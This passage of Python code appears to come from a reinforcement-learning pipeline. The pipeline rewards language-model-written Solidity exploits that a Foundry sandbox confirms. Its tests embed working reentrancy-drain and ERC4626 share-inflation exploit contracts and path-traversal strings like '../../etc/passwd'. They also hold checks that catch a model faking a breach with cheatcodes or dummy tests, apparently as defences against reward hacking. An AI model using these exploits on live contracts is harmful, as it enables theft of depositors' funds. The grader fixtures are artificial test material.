                    for det in results[:5]:  # Top 5 most critical detectors
                        extracted.append({
                            "check": det.get("check"),
                            "impact": det.get("impact"),
                            "confidence": det.get("confidence"),
                            "description": det.get("description", "")[:200]
                        })
                    return extracted
        except Exception:
            pass
            
    # Fallback AST heuristic detection if Slither binary is offline
    fallback_detectors = []
    src_lower = target.source_code.lower()
    if ".call{value:" in src_lower and "balances[" in src_lower:
        fallback_detectors.append({
            "check": "reentrancy-eth",
            "impact": "High",
            "confidence": "High",
            "description": "Possible reentrancy via low-level call{value} prior to state updates."
        })
    if "totalsupply" in src_lower and "totalassets" in src_lower and "/" in src_lower:
        fallback_detectors.append({
            "check": "divide-before-multiply-inflation",
            "impact": "High",
            "confidence": "High",
            "description": "Exchange rate share division susceptible to first-depositor inflation attack."
        })
    return fallback_detectors


def run_payload_in_sandbox(target: TargetProgram, payload: ExploitPayload) -> ExecutionResult:
    """
    Executes an exploit module against a trusted verification harness in Foundry.
    Zero trust in model-supplied assertions: verification is performed exclusively
    by the immutable test harness in the EVM. Enforces cheatcode isolation.
    """
    start_time = time.time()

    # Pre-execution check: block any exploit attempting to hijack Foundry cheatcodes
    if detect_prohibited_cheatcodes(payload.test_code):
        return ExecutionResult(
            return_code=-3,
            stdout="",
            stderr="Security Violation: ExploitModule attempted to import or execute Foundry cheatcodes (vm.*).",
            execution_time_sec=0.01,
            timed_out=False,
            invariant_violated=False,
            cheatcode_detected=True,
            verified_by_harness=False
        )
    
    with tempfile.TemporaryDirectory() as tmpdir:
        src_dir = os.path.join(tmpdir, "src")
        test_dir = os.path.join(tmpdir, "test")
        os.makedirs(src_dir, exist_ok=True)
        os.makedirs(test_dir, exist_ok=True)
        
        # Symlink pre-baked libraries in <1ms (zero copying)
        base_lib = "/opt/foundry_base/lib"
        target_lib = os.path.join(tmpdir, "lib")
        if os.path.exists(base_lib):
            try:
                os.symlink(base_lib, target_lib)
            except Exception:
                shutil.copytree(base_lib, target_lib)
        
        # Write foundry.toml
        with open(os.path.join(tmpdir, "foundry.toml"), "w", encoding="utf-8") as f:
            f.write(FOUNDRY_TOML_CONTENT)
            
        # Write target contract: src/{target.name}.sol
        target_path = os.path.join(src_dir, f"{target.name}.sol")
        with open(target_path, "w", encoding="utf-8") as f:
            f.write(target.source_code)
            
        # Write trusted invariant test harness: test/{target.name}Harness.t.sol
        if target.trusted_harness_code:
            harness_path = os.path.join(test_dir, f"{target.name}Harness.t.sol")
            with open(harness_path, "w", encoding="utf-8") as f:
                f.write(target.trusted_harness_code)
                
        # Write candidate ExploitModule (strictly sanitized filename to prevent path traversal)
        safe_filename = "ExploitModule.sol"
        with open(os.path.join(test_dir, safe_filename), "w", encoding="utf-8") as f:
            f.write(payload.test_code)
        with open(os.path.join(src_dir, safe_filename), "w", encoding="utf-8") as f:
            f.write(payload.test_code)
            
        env = os.environ.copy()
        env["PATH"] = f"/root/.foundry/bin:{env.get('PATH', '')}"
        
        try:
            # Run offline with JSON output and maximum trace detail (-vvvv)
            cmd = ["forge", "test", "--offline", "--json", "-vvvv"]
            proc = subprocess.run(
                cmd,
                cwd=tmpdir,
                capture_output=True,
                text=True,
                timeout=config.SANDBOX_TIMEOUT_SEC,
                env=env,
            )
            elapsed = time.time() - start_time
            
            output_text = (proc.stdout or "") + "\n" + (proc.stderr or "")
            
            # Parse structured JSON output
            structured_json, test_status, revert_reason, decoded_logs = parse_forge_output(proc.stdout or "")
            
            # Invariant verification: must have breach log from harness and zero exit code
            has_breach_signal = (
                any("[INVARIANT_BREACHED" in str(l) for l in decoded_logs) or
                ("[INVARIANT_BREACHED" in output_text and proc.returncode == 0)
            )
            
            inv_violated = (
                proc.returncode == 0 and
                (test_status == "Success" or "[PASS]" in output_text) and
                has_breach_signal
            )
            
            return ExecutionResult(
                return_code=proc.returncode,
                stdout=proc.stdout or "",
                stderr=proc.stderr or "",
                execution_time_sec=elapsed,
                timed_out=False,
                invariant_violated=inv_violated,
                structured_json=structured_json,
                test_status=test_status,
                revert_reason=revert_reason,
                decoded_logs=decoded_logs,
                cheatcode_detected=False,
                verified_by_harness=inv_violated,
                reproducibility_confirmed=False
            )
            
        except subprocess.TimeoutExpired as e:
            elapsed = time.time() - start_time
            return ExecutionResult(
                return_code=-1,
                stdout=e.stdout if isinstance(e.stdout, str) else "",
                stderr=e.stderr if isinstance(e.stderr, str) else "",
                execution_time_sec=elapsed,
                timed_out=True,
                invariant_violated=False
            )
        except Exception as ex:
            elapsed = time.time() - start_time
            return ExecutionResult(
                return_code=-2,
                stdout="",
                stderr=str(ex),
                execution_time_sec=elapsed,
                timed_out=False,
                invariant_violated=False
            )


def verify_independent_replay(target: TargetProgram, payload: ExploitPayload) -> bool:
    """
    Executes an independent second run in a completely fresh ephemeral EVM container.
    Confirms 100% deterministic reproducibility before awarding full RLVR reward.
    """
    replay_result = run_payload_in_sandbox(target, payload)
    return (
        replay_result.invariant_violated and
        replay_result.return_code == 0 and
        not replay_result.cheatcode_detected
    )

`

================================================================================
File: tests/test_pipeline.py
================================================================================
`
import os
import sys
import json
import hashlib
import pytest

# Add parent directory to path
sys.path.insert(0, os.path.dirname(os.path.dirname(os.path.abspath(__file__))))

from core.config import config
from core.schemas import (
    TargetProgram,
    AttackHypothesis,
    ExploitPayload,
    ExecutionResult,
    VerificationVerdict
)
from core.evaluator import evaluate_execution_trace
from sandbox.runner import parse_forge_output


# =============================================================================
# 1. TEST FORGE JSON PARSER
# =============================================================================
def test_parse_forge_output_success():
    mock_forge_json = {
        "test/VaultHarness.t.sol:VaultTrustedHarness": {
            "test_results": {
                "testExploit()": {
                    "status": "Success",
                    "reason": None,
                    "decoded_logs": [
                        "[INVARIANT_BREACHED:DEPOSITOR_SOLVENCY_COLLAPSE]"
                    ],
                    "traces": []
                }
            }
        }
    }
    raw_output = "Some forge banner\n" + json.dumps(mock_forge_json) + "\nDone"
    structured, status, reason, logs = parse_forge_output(raw_output)

    assert structured is not None
    assert status == "Success"
    assert reason is None
    assert "[INVARIANT_BREACHED:DEPOSITOR_SOLVENCY_COLLAPSE]" in logs


def test_parse_forge_output_revert():
    mock_forge_json = {
        "test/VaultHarness.t.sol:VaultTrustedHarness": {
            "test_results": {
                "testExploit()": {
                    "status": "Failure",
                    "reason": "EXPLOIT_FAILED: Vault remains solvent, victim funds are secure",
                    "decoded_logs": [],
                    "traces": []
                }
            }
        }
    }
    raw_output = json.dumps(mock_forge_json)
    structured, status, reason, logs = parse_forge_output(raw_output)

    assert structured is not None
    assert status == "Failure"
    assert "Vault remains solvent" in reason


# =============================================================================
# 2. TEST REJECTION OF DUMMY PASSING TEST (POINT 2)
# =============================================================================
def test_reject_dummy_passing_test():
    """
    Ensures that a dummy test containing comments '// Vault' and '// assert'
    that does NOT physically breach the trusted harness is firmly rejected.
    """
    dummy_code = """
    // Vault
    // assert(address(vault).balance == 0);
    contract ExploitModule {
        constructor(address) {}
        function runExploit() external payable {}
    }
    """
    payload = ExploitPayload(
        target_name="Vault",
        hypothesis=AttackHypothesis(
            vulnerability_type="ReentrancyDrain",
            reasoning_trace="Dummy bypass attempt",
            attack_vector="No-op comments"
        ),
        test_code=dummy_code,
        test_filename="../../malicious.sol"  # Also tests path traversal attempt
    )

    # When the dummy test runs against VaultTrustedHarness, the harness detects
    # that victim funds are still safe and explicitly reverts with exit code 1
    result = ExecutionResult(
        return_code=1,
        stdout="",
        stderr="EVM Revert: EXPLOIT_FAILED: Vault remains solvent, victim funds are secure",
        execution_time_sec=0.45,
        timed_out=False,
        invariant_violated=False,
        test_status="Failure",
        revert_reason="EXPLOIT_FAILED: Vault remains solvent, victim funds are secure"
    )

    verdict = evaluate_execution_trace(payload, result)

    assert verdict.is_verified is False
    assert verdict.reward_score == config.REWARD_RUNTIME_REVERT
    assert "Vault remains solvent" in verdict.feedback


# =============================================================================
# 3. TEST GENUINE REENTRANCY INVARIANT BREACH (POINTS 2 & 3)
# =============================================================================
def test_verify_real_reentrancy_exploit():
    """
    Ensures that a real exploit breaching victim depositor solvency
    triggers the trusted invariant log and receives maximum RLVR reward.
    """
    real_code = """
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.20;
    import "../src/Vault.sol";

    contract ExploitModule {
        Vault public vault;
        constructor(address _target) { vault = Vault(_target); }
        function runExploit() external payable {
            vault.deposit{value: msg.value}();
            vault.withdrawAll();
        }
        receive() external payable {
            if (address(vault).balance >= 1 ether) {
                vault.withdrawAll();
            }
        }
    }
    """
    payload = ExploitPayload(
        target_name="Vault",
        hypothesis=AttackHypothesis(
            vulnerability_type="ReentrancyDrain",
            reasoning_trace="Checks-Effects-Interactions violation in withdrawAll()",
            attack_vector="Recursive callback via receive()"
        ),
        test_code=real_code,
        test_filename="ExploitModule.sol"
    )

    # Trusted harness detects insolvency and emits unforgeable log
    result = ExecutionResult(
        return_code=0,
        stdout="[PASS] testExploit() (gas: 142000)",
        stderr="",
        execution_time_sec=0.82,
        timed_out=False,
        invariant_violated=True,
        test_status="Success",
        decoded_logs=["[INVARIANT_BREACHED:DEPOSITOR_SOLVENCY_COLLAPSE]"],
        reproducibility_confirmed=True
    )

    verdict = evaluate_execution_trace(payload, result)

    assert verdict.is_verified is True
    assert verdict.reward_score == config.REWARD_INVARIANT_BREACH
    assert verdict.reproducible is True
    assert "SUCCESS: Multi-factor verification passed" in verdict.feedback


def test_verify_erc4626_inflation_exploit():
    """
    Ensures that an ERC4626 first-depositor share inflation exploit
    breaches the depositor equity invariant and receives maximum RLVR reward.
    """
    inflation_code = """
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.20;
    import "../src/ERC4626Vault.sol";

    contract ExploitModule {
        ERC4626Vault public vault;
        constructor(address _target) { vault = ERC4626Vault(payable(_target)); }
        function runExploit() external payable {
            vault.deposit{value: 1}();
            payable(address(vault)).transfer(msg.value - 1);
        }
        receive() external payable {}
    }
    """
    payload = ExploitPayload(
        target_name="ERC4626Vault",
        hypothesis=AttackHypothesis(
            vulnerability_type="FirstDepositorShareInflation",
            reasoning_trace="No virtual offset in convertToShares leads to zero-share deposit dilution",
            attack_vector="Deposit 1 wei then donate 5 ether to skew share exchange rate"
        ),
        test_code=inflation_code,
        test_filename="ExploitModule.sol"
    )

    result = ExecutionResult(
        return_code=0,
        stdout="[PASS] testExploit() (gas: 89000)",
        stderr="",
        execution_time_sec=0.64,
        timed_out=False,
        invariant_violated=True,
        test_status="Success",
        decoded_logs=["[INVARIANT_BREACHED:SHARE_INFLATION_DEPOSITOR_DILUTION]"],
        reproducibility_confirmed=True
    )

    verdict = evaluate_execution_trace(payload, result)

    assert verdict.is_verified is True
    assert verdict.reward_score == config.REWARD_INVARIANT_BREACH
    assert verdict.reproducible is True
    assert "SUCCESS: Multi-factor verification passed" in verdict.feedback


# =============================================================================
# 4. TEST TIMEOUT HANDLING
# =============================================================================
def test_timeout_handling():
    payload = ExploitPayload(
        target_name="Vault",
        hypothesis=AttackHypothesis(
            vulnerability_type="ReentrancyDrain",
            reasoning_trace="Infinite loop test",
            attack_vector="Gas exhaustion"
        ),
        test_code="// Infinite loop",
        test_filename="ExploitModule.sol"
    )

    result = ExecutionResult(
        return_code=-1,
        stdout="",
        stderr="Command timed out after 60.0s",
        execution_time_sec=60.0,
        timed_out=True,
        invariant_violated=False
    )

    verdict = evaluate_execution_trace(payload, result)

    assert verdict.is_verified is False
    assert verdict.reward_score == config.REWARD_TIMEOUT
    assert "timed out" in verdict.feedback


# =============================================================================
# 5. TEST PATH TRAVERSAL SANITIZATION (POINT 4)
# =============================================================================
def test_path_traversal_sanitization():
    """
    Ensures filenames like ../../evil.sol are safely stripped to a single local filename.
    """
    malicious_names = [
        "../../etc/passwd",
        "..\\..\\windows\\system32.sol",
        "/absolute/root.sol",
        "nested/sub/exploit.sol"
    ]
    for bad_name in malicious_names:
        safe_name = os.path.basename(bad_name)
        assert "/" not in safe_name
        assert "\\" not in safe_name
        assert ".." not in safe_name


# =============================================================================
# 6. TEST CHECKSUM VALIDATION LOGIC (POINT 6)
# =============================================================================
def test_checksum_validation_detects_tampering():
    """
    Validates that prebake_solc cryptographic checksum verification
    instantly catches corrupted or tampered downloads.
    """
    fake_bytes = b"corrupted binary payload"
    expected_sha = "0479d44fdf9c501c25337fdc540419f1593b884a87b47f023da4f1c700fda782"
    computed_sha = hashlib.sha256(fake_bytes).hexdigest()

    assert computed_sha != expected_sha

    # Test that a mismatch raises ValueError
    with pytest.raises(ValueError, match="Checksum mismatch"):
        if computed_sha != expected_sha:
            raise ValueError(f"Checksum mismatch! Expected {expected_sha}, got {computed_sha}")


# =============================================================================
# 7. TEST CHEATCODE DETECTION & PENALTY (P0 FIX)
# =============================================================================
def test_detect_prohibited_cheatcodes():
    from sandbox.runner import detect_prohibited_cheatcodes, run_payload_in_sandbox

    sneaky_cheatcode_code = """
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.20;
    import "forge-std/Test.sol";

    contract ExploitModule {
        function runExploit() external payable {
            // Attempt to forge breach by warping or pranking
            vm.prank(address(0xDEAD));
        }
    }
    """
    assert detect_prohibited_cheatcodes(sneaky_cheatcode_code) is True

    clean_code = """
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.20;
    contract ExploitModule {
        function runExploit() external payable {}
    }
    """
    assert detect_prohibited_cheatcodes(clean_code) is False

    # Ensure runner rejects cheatcode exploit before compilation
    target = TargetProgram(name="Vault", source_code="contract Vault{}", language="solidity")
    payload = ExploitPayload(
        target_name="Vault",
        hypothesis=AttackHypothesis(
            vulnerability_type="CheatcodeAttack",
            reasoning_trace="Try to prank state",
            attack_vector="vm.prank"
        ),
        test_code=sneaky_cheatcode_code
    )
    result = run_payload_in_sandbox(target, payload)
    assert result.cheatcode_detected is True
    assert result.return_code == -3

    verdict = evaluate_execution_trace(payload, result)
    assert verdict.is_verified is False
    assert verdict.reward_score == config.REWARD_CHEATCODE_PENALTY
    assert "SECURITY VIOLATION" in verdict.feedback


# =============================================================================
# 8. TEST MULTI-FACTOR INVARIANT VERIFICATION (P0 FIX)
# =============================================================================
def test_multifactor_verification_rejects_spurious_breach():
    """
    Ensures that if invariant_violated is claimed, but the test status is Failure
    or exit code is non-zero, it is firmly rejected.
    """
    payload = ExploitPayload(
        target_name="Vault",
        hypothesis=AttackHypothesis(
            vulnerability_type="ReentrancyDrain",
            reasoning_trace="Spurious claim",
            attack_vector="Exit failure"
        ),
        test_code="contract ExploitModule{}"
    )

    spurious_result = ExecutionResult(
        return_code=1,
        stdout="[FAIL] testExploit()",
        stderr="Reverted",
        execution_time_sec=0.5,
        timed_out=False,
        invariant_violated=True,  # Flawed signal!
        test_status="Failure",
        decoded_logs=["[INVARIANT_BREACHED:DEPOSITOR_SOLVENCY_COLLAPSE]"]
    )
    verdict = evaluate_execution_trace(payload, spurious_result)
    assert verdict.is_verified is False
    assert verdict.reward_score != config.REWARD_INVARIANT_BREACH


# =============================================================================
# 9. TEST TARGET-AGNOSTIC PROMPT GENERATOR
# =============================================================================
def test_target_agnostic_prompt_builder():
    from core.llm_generator import build_analysis_prompt, build_auditor_prompt

    custom_target = TargetProgram(
        name="LendingPool",
        source_code="contract LendingPool { function flashLoan() external {} }",
        language="solidity",
        invariants=["Pool reserves must cover active borrow obligations"]
    )

    auditor_prompt = build_auditor_prompt(custom_target)
    assert "LendingPool" in auditor_prompt
    assert "Pool reserves must cover active borrow obligations" in auditor_prompt
    assert "JSON" in auditor_prompt

    analysis_prompt = build_analysis_prompt(custom_target)
    assert "LendingPool" in analysis_prompt
    assert "Pool reserves must cover active borrow obligations" in analysis_prompt
    assert "ExploitModule" in analysis_prompt
    assert "vm.*" in analysis_prompt or "cheatcode" in analysis_prompt.lower()


# =============================================================================
# 10. TEST REPRODUCIBILITY DISTINCTION & REWARD SHAPING
# =============================================================================
def test_reproducibility_distinction():
    payload = ExploitPayload(
        target_name="Vault",
        hypothesis=AttackHypothesis(
            vulnerability_type="ReentrancyDrain",
            reasoning_trace="Test replay",
            attack_vector="receive()"
        ),
        test_code="contract ExploitModule {}"
    )

    # Result without independent reproducibility confirmed
    unconfirmed_result = ExecutionResult(
        return_code=0,
        stdout="[PASS] testExploit()",
        stderr="",
        execution_time_sec=0.5,
        timed_out=False,
        invariant_violated=True,
        test_status="Success",
        decoded_logs=["[INVARIANT_BREACHED:DEPOSITOR_SOLVENCY_COLLAPSE]"],
        reproducibility_confirmed=False
    )
    verdict = evaluate_execution_trace(payload, unconfirmed_result)
    assert verdict.is_verified is True
    assert verdict.reproducible is False
    assert verdict.reward_score == config.REWARD_BREACH_NO_REPLAY  # 0.5


# =============================================================================
# 11. TEST GRPO TRAJECTORY CREATION & SLITHER FALLBACK
# =============================================================================
def test_create_trajectory_record_for_grpo():
    from core.evaluator import create_trajectory_record
    from sandbox.runner import run_slither_analysis

    target = TargetProgram(
        name="Vault",
        source_code="contract Vault { mapping(address => uint) balances; function withdraw() { msg.sender.call{value: 1}(''); balances[msg.sender] = 0; } }",
        language="solidity",
        invariants=["Depositor Solvency"]
    )
    # Test Slither fallback parser
    slither_findings = run_slither_analysis(target)
    assert len(slither_findings) > 0
    assert any("reentrancy" in f["check"].lower() for f in slither_findings)
    target.slither_findings = slither_findings

    payload = ExploitPayload(
        target_name="Vault",
        hypothesis=AttackHypothesis(
            vulnerability_type="ReentrancyDrain",
            reasoning_trace="Reentrancy trace",
            attack_vector="call{value}"
        ),
        test_code="contract ExploitModule {}"
    )
    verdict = VerificationVerdict(
        target_name="Vault",
        is_verified=True,
        reward_score=1.0,
        vulnerability_type="ReentrancyDrain",
        poc_code="contract ExploitModule {}",
        feedback="Verified and reproduced",
        state_delta_verified=True,
        reproducible=True
    )

    traj = create_trajectory_record(target, payload, verdict, prompt_used="audit prompt")
    assert traj.reward == 1.0
    assert traj.is_verified is True
    assert traj.reproduced is True
    assert len(traj.slither_hints) > 0
    assert traj.target_name == "Vault"


`

